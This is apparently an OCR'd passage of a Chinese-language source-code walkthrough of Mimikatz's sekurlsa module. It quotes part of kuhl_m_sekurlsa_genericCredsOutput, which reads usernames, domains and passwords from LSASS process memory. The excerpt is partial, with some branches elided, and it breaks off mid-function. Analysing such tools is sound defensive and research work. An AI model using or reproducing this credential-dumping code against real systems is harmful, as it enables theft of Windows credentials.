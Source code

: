 
如果 `l_LogSessList` 中的 `LocallyUniqueIdentifier` 与之前获取到的 `LogonSessionList` 中的登录 ID 相等，则进入 `kuhl_m_sekurlsa_genericCredsOutput()` 函数打印凭据信息，如下所示。

```cpp
VOID kuhl_m_sekurlsa_genericCredsOutput(PKIWI_GENERIC_PRIMARY_CREDENTIAL mesCreds, PKIWI_BASIC_SECURITY_LOGON_SESSION_DATA pData, ULONG flags)
{
    PUNICODE_STRING username = NULL, domain = NULL, password = NULL;
    PKIWI_CREDENTIAL_KEYS pKeys = NULL;
    PKERB_HASHPASSWORD_GENERIC pHashPassword;
    UNICODE_STRING buffer;
    DWORD type, i;
    BOOL isNull = FALSE;
    PWSTR sid = NULL;
    PBYTE msvCredentials;
    const MSV1_0_PRIMARY_HELPER * pMSVHelper;
#if defined(_M_X64) || defined(_M_ARM64)
    DWORD cbLsaIsoOutput;
    PBYTE lsaIsoOutput;
    PLSAISO_DATA_BLOB blob = NULL;
#endif
    SHA_CTX shaCtx;
    SHA_DIGEST shaDigest;

    if(mesCreds)
    {
        ConvertSidToStringSid(pData->pSid, &sid);
        if(flags & KUHL_SEKURLSA_CREDS_DISPLAY_CREDENTIAL)
        {
            // ...
        }
        else if(flags & KUHL_SEKURLSA_CREDS_DISPLAY_CLOUDAP_PRT)
        {
            // ...
        }
        else if(flags & KUHL_SEKURLSA_CREDS_DISPLAY_PINCODE)
        {
            // ...
        }
        else if(flags & KUHL_SEKURLSA_CREDS_DISPLAY_KEY_LIST)
        {
            // ...
        }
        else
        {
            // ...

            if(mesCreds->UserName.Buffer || mesCreds->Domaine.Buffer || mesCreds->Password.Buffer)
            {
                if(kull_m_process_getUnicodeString(&mesCreds->UserName, cLsass.hLsassMem) && kull_m_string_suspectUnicodeString(&mesCreds->UserName))
                {
                    if(!(flags & KUHL_SEKURLSA_CREDS_DISPLAY_DOMAIN))
                        username = &mesCreds->UserName;
                    else
                        domain = &mesCreds->UserName;
                }
                if(kull_m_process_getUnicodeString(&mesCreds->Domaine, cLsass.hLsassMem) && kull_m_string_suspectUnicodeString(&mesCreds->Domaine))
                {
                    if(!(flags & KUHL_SEKURLSA_CREDS_DISPLAY_DOMAIN))
                        domain = &mesCreds->Domaine;
                    else
                        username = &mesCreds->Domaine;
```